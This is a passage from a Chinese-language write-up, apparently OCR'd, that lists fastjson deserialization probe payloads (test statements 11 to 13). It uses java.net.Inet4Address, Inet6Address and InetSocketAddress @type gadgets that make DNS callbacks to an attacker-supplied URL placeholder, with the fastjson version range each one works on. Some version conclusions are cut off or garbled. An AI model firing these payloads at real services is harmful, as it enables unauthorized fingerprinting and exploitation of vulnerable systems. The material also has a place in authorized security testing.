   
以下，即1.2.9<=fastjson版本<=1.2.47；不可用版本1.2.83、1.2.66-1.2.80、1.2.48-1.2.62、1.2.1-1.2.8。  
####   
#### 测试语句11：【fastjson>=1.2.9】  
  
单独的两条：  

```
{&#34;@type&#34;:&#34;java.net.Inet4Address&#34;,&#34;val&#34;:&#34;§1§.{{URL}}&#34;}
{&#34;@type&#34;:&#34;java.net.Inet6Address&#34;,&#34;val&#34;:&#34;§1§.{{URL}}&#34;}
```

  
实验结论：  
可用范围
```
1.2.9
```

  
以上，即fastjson版本>=1.2.9；不可用版本1.2.1-1.2.8。  
####   
#### 测试语句12：【fastjson>=1.2.9】  

```
{&#34;@type&#34;:&#34;java.net.InetSocketAddress&#34;{&#34;address&#34;:,&#34;val&#34;:&#34;§1§.{{URL}}&#34;}}
```

  
实验结论：  
可用范围
```
1.2.9
```

  
以上，即fastjson版本>=1.2.9；不可用版本1.2.1-1.2.8。  
####   
#### 测试语句13：【1.2.9<=fastjson<=1.2.24以及1.2.40<=fastjson<=1.2.47】  

```
[{&#34;@type&#34;:&#34;java.lang.Class&#34;,&#34;val&#34;:&#34;java.io.ByteArrayOutputStream&#34;},{&#34;@type&#34;:&#34;java.io.ByteArrayOutputStream&#34;},{&#34;@type&#34;:&#34;java.net.InetSocketAddress&#34;{&#34;address&#34;:,&#34;val&#34;:&#34;§1§.{{URL}}&#34;}}]
```

  
实验结论：  
可用范围
```
1.2.9
```

  
以上，
```
1.2.24
```
